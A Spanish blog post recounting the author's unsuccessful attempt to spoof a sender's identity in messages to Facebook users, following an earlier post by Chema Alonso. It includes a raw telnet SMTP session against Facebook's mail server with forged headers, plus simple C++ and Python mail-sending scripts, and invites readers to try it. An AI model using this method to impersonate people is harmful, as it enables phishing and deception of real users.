 ```yaml
---
title: Suplantación de identidad en Facebook

layout: post.amp

if_slider_image:
  -
  -
categories:
  - seguridad
tags:
  - email spoofing
  - seguridad
  - smtp
  - spoofing facebook
format: aside
main-class: "articulos"
color: "#F57C00"
---
```

Leyendo el blog de <a href="http://www.elladodelmal.com/" target="_blank">Chema Alonso</a> me he encontrado con una entrada interesante que, aunque no he logrado realizarla al 100% quiero compartirla con vosotros para que lo intente quien quiera.

El método consiste en conseguir 3 cosas:

*La dirección de correo de la persona a suplantar.*  
*Dirección de correo de facebook de la persona a quién se va a engañar.*  
*Un sistema para enviar correos SMTP*

Los pasos a seguir podéis leerlos en la entrada de <a href="http://www.elladodelmal.com/2012/05/suplantacion-de-identidad-en-facebook.html" target="_blank">Chema: Suplantación de identidad en Facebook</a>

Voy a explicar lo que yo he hecho:

Al principio al establecer comunicación mediante telnet por el puerto 25 (el de SMTP) y escribrir los comandos siempre recibía el siguiente error:

```bash
<strong>550 5.6.0 Invalid header found (see RFC2822 section 3.6)</strong>
```

Tras buscar un poco el motivo descubrí que se debía a que me estaba saltando algunas cabeceras del protocolo, concretamente *From, To * y *Date.*

En resumen, todo el proceso queda como sigue:  

<!--ad-->

```bash
telnet smtpin.mx.facebook.com smtp
Trying 69.171.244.11...
Connected to smtpin.mx.facebook.com.
Escape character is '^]'.
220 smtpin.mx.facebook.com ESMTP
HELO client.facebook.com
250 smtpin.mx.facebook.com says HELO to xx.xxx.xxx.xx:xxxxx
MAIL from:
250 MAIL FROM accepted
RCPT to:
250 RCPT TO accepted
DATA
354 continue.  finished with "rn.rn"
From: xxxxx@xxxxx.xxx
To: xxxxxx@facebook.com
Subject: Test
Date: xxx, xx xxx xxxx xx:xx:xx -xxxx

This is an example
.
450 4.3.2 INT-T14 http://postmaster.facebook.com/response_codes?ip=xx.xxx.xx.x#int Server busy, try again later
Connection closed by foreign host.
```

Pero sigo recibiendo un error (*450 4.3.2 INT-T14 http://postmaster.facebook.com/response_codes?ip=xx.xxx.xx.x#int Server busy, try again later  
Connection closed by foreign host*)

También probé con dos programas (sin éxito), uno en[ C++][1] y otro en [python][2] que encontré en stackoverflow:

```cpp
#include <iostream>
     #include <sys /types.h>
     #include </sys><sys /socket.h>
     #include <netinet /in.h>
     #include <netdb .h>
     #include <stdio .h>
     #include <string .h>
     using namespace std;
     #define HELO "HELO xxxxxx@xxxx.xxxxrn"
     #define DATA "DATArn"
     #define QUIT "QUITrn"

    //#define h_addr h_addr_list[0]
    //FILE *fin;
    int sock;
    struct sockaddr_in server;
    struct hostent *hp, *gethostbyname();
    char buf[BUFSIZ+1];
    int len;
    char *host_id="69.171.244.12";
    char *from_id="********";
    char *to_id="*******";
    char *sub="testmailrn";
    char wkstr[100]="hello how r urn";

    /*=====Send a string to the socket=====*/

    void send_socket(char *s)
    {
        write(sock,s,strlen(s));
        write(1,s,strlen(s));
        //printf("Client:%sn",s);
    }

    //=====Read a string from the socket=====*/

    void read_socket()
    {
        len = read(sock,buf,BUFSIZ);
        write(1,buf,len);
      //printf("Server:%sn",buf);
    }

    /*=====MAIN=====*/
    int main(int argc, char* argv[])
    {

    /*=====Create Socket=====*/
    sock = socket(AF_INET, SOCK_STREAM, 0);
    if (sock==-1)
    {
     perror("opening stream socket");
     return 1;
    }
    else
      cout < < "socket createdn";
    /*=====Verify host=====*/
    server.sin_family = AF_INET;
    hp = gethostbyname(host_id);
    if (hp==(struct hostent *) 0)
    {
     fprintf(stderr, "%s: unknown hostn", host_id);
     return 2;
    }

    /*=====Connect to port 25 on remote host=====*/
    memcpy((char *) &server.sin_addr, (char *) hp->h_addr, hp->h_length);
    server.sin_port=htons(25); /* SMTP PORT */
    if (connect(sock, (struct sockaddr *) &server, sizeof server)==-1)
    {
     perror("connecting stream socket");
     return 1;
    }
    else
      cout < < "Connectedn";
    /*=====Write some data then read some =====*/
    read_socket(); /* SMTP Server logon string */
    send_socket(HELO); /* introduce ourselves */
    read_socket(); /*Read reply */
    send_socket("MAIL FROM: ");
    send_socket(from_id);
    send_socket("rn");
    read_socket(); /* Sender OK */
    send_socket("VRFY ");
    send_socket(from_id);
    send_socket("rn");
    read_socket(); // Sender OK */
    send_socket("RCPT TO: "); /*Mail to*/
    send_socket(to_id);
    send_socket("rn");
    read_socket(); // Recipient OK*/
    send_socket(DATA);// body to follow*/
    send_socket("Subject: ");
    send_socket(sub);
    read_socket(); // Recipient OK*/
    send_socket(wkstr);
    send_socket(".rn");
    read_socket();
    send_socket(QUIT); /* quit */
    read_socket(); // log off */

    //=====Close socket and finish=====*/
    close(sock);
    return 0;
  }

```

La versión en python:

```python
#!/usr/bin/python

import smtplib
import sys
import os

sender = 'xxxxx@xxxxx.com'
receivers = ['xxxxx@facebook.com']

message = """From: From Person
To: To Person
Subject: SMTP e-mail test
This is a test e-mail message.
"""

try:
   smtpObj = smtplib.SMTP('69.171.244.12')
   smtpObj.sendmail(sender, receivers, message)
   print "Successfully sent email"
except Exception, exc:
   sys.exit( "mail failed; %s" % str(exc) ) # give a error message
```

Esto es todo, por más que lo he intentado no lo he logrado, si os animáis a probarlo y lo conseguís, agradecería que lo comentárais.

##### Fuente: <a href="http://www.elladodelmal.com/2012/05/suplantacion-de-identidad-en-facebook.html" target="_blank">Elladodelmal</a>

</string></stdio></netdb></netinet></sys></iostream>



 [1]: /c/
 [2]: /python

{% include toc.html %}
